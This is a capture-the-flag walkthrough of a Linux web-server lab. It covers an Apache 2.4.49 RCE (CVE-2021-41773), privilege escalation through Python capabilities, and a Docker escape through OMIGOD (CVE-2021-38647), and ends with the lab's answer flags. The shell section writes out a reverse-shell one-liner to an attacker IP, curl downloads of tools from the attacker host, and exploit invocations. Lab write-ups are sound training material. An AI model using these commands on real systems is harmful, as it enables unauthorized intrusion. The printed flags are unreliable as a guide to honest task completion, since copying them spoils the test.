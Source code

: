 # Oh My WebServer - Medium

```shell
nmap -T4 -p- -A -Pn -v 10.10.174.97

#apache 2.4.49 exploit
python3 CVE-2021-41773.py -t 10.10.174.97
#gives limited shell

#setup another listener in new tab
nc -nvlp 4444

#in limited shell
#run python reverse-shell command
export RHOST="10.14.31.212";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

#we get shell on our listener
whoami
#daemon

python3 -c 'import pty;pty.spawn("/bin/bash")'

#we can check directories such as /opt, /var/www, /home
#but we do not get anything

#in attacker machine
python3 -m http.server

#in reverse shell
cd /tmp

#we do not have wget, we can use curl
curl http://10.14.31.212:8000/linpeas.sh --output linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
#this shows python has capabilities set
#confirm using getcap command
getcap -r / 2>/dev/null

#exploit from GTFObins
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'

#we have root shell now

id
#root

ls -la /root
#this has user flag

cat /root/user.txt

#we now need to check root flag
find / -name root.txt 2>/dev/null
#we do not get root flag

#.dockerenv in /
#random hostname
ifconfig
#and ip is 172.17.0.2

#this shows we are in docker environment

#we can scan adjacent machine 172.17.0.1
#for open ports using nmap

#get nmap static binary from attacker machine
curl http://10.14.31.212:8000/nmap --output nmap

chmod +x nmap

./nmap -T4 -p- 172.17.0.1

#shows closed port 5985 and open port 5986
#googling these show 'omigod' exploit
#cve-2021-38647 exploit from github
curl http://10.14.31.212:8000/CVE-2021-38647.py --output cve.py

/usr/bin/python3 cve.py -t 172.17.0.1 -p 5986 -c id

/usr/bin/python3 cve.py -t 172.17.0.1 -p 5986 -c 'find / -name root.txt 2>/dev/null'

#root flag
/usr/bin/python3 cve.py -t 172.17.0.1 -p 5986 -c 'cat /root/root.txt'
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.49

* Basic enumeration shows that the version of Apache webserver is 2.4.49.

* When Googled, we find out that this version has a RCE exploit associated with it.

* We can download an exploit from GitHub; running the Python script with the required parameter gets us a limited reverse shell.

* We can setup another listener, and use a reverse-shell one-liner to migrate our shell to the listener.

* Now, we have reverse shell as 'daemon' - we need to check for privesc.

* Using ```linpeas.sh```, we can see that there are capabilities set for Python 3.7

* We can confirm this using the ```getcap``` command.

* GTFObins has a neat exploit for set capabilities in Python - we use that to get shell as root.

* Now, as this is a web server, there are no users in home directory.

* Checking the root folder gives us the user flag.

* Now, there is a ```.dockerenv``` file in root directory; furthermore, ```ifconfig``` shows our IP is 172.17.0.2, and finally we have a random string as hostname.

* These three indicators show that we are in a Docker environment - we now need to check for ways to escape this.

* We can upload a static binary of ```nmap``` to victim machine and check for open ports.

* Running the scan against all ports shows that port 5985 is closed and 5986 is open.

* Googling '5986 port open docker' leads us to 'OMIGOD' exploit, known by CVE-2021-38647.

* This has a Python script for exploitation - we can download it from GitHub and upload it to victim machine.

* Running this script with the required parameters, we can search for the root flag, and print it.

```markdown
1. What is the user flag? - THM{eacffefe1d2aafcc15e70dc2f07f7ac1}

2. What is the root flag? - THM{7f147ef1f36da9ae29529890a1b6011f}
```
